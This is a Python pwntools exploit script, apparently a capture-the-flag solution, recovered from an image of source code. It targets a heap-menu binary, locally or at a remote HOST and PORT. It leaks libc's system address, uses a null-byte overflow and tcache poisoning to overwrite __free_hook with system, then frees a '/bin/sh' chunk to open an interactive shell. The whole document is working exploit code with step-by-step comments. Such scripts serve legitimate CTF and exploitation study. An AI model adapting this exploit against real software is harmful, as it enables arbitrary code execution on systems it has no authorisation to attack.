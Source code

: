 ```python
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
    debug([])

initialize('y')

# Calculate everything
p.recvuntil(': ')
system = int(p.recvuntil('\n').strip('\n'), 16)
libc.address = system - libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))

# Add a 0x50 and 0x180 chunk
add(0x58, 'A'*0x58) # Chunk A
add(0x180, 'B'*0x180) # Chunk B

# Free them both
free(0) # Goes into 0x50 tcache bin
free(1) # Goes into 0x180 tcache bin

# Get back the 0x50 chunk, but also null byte overflow into the 0x180 chunk
# Also put in /bin/sh\x00 into it for later use
add(0x58, '/bin/sh\x00' + 'A'*0x50) # Chunk A

# The 0x180 chunk's size is now actually 0x100 (due to null byte overflow), so we can free it again
free(1) # Goes into 0xf0 tcache bin

# Get back the 0x100 chunk out of the 0x180 tcache bin
add(0x180, 'C'*0x180) # Chunk B

# But remember that it's size is still 0x100, so we can free it immediately
free(3) # Goes into 0xf0 tcache bin

# Now: tcache[0x100] -> Chunk B <- Chunk B
# We do the usual tcache poisoning attack

# Get Chunk B from 0xf0 tcache bin and change it's FD to __free_hook
add(0xf0, p64(free_hook) + 'D'*0xe8)

# Allocates chunk B again
add(0xf0, 'E'*0xf0)

# Allocates chunk on __free_hook, change it to system
add(0xf0, p64(system) + 'F'*0xe8)

# Call free on the chunk with /bin/sh\x00 in it
# This will then call free('/bin/sh\x00') which calls system('/bin/sh\x00')
free(0)

p.interactive()
```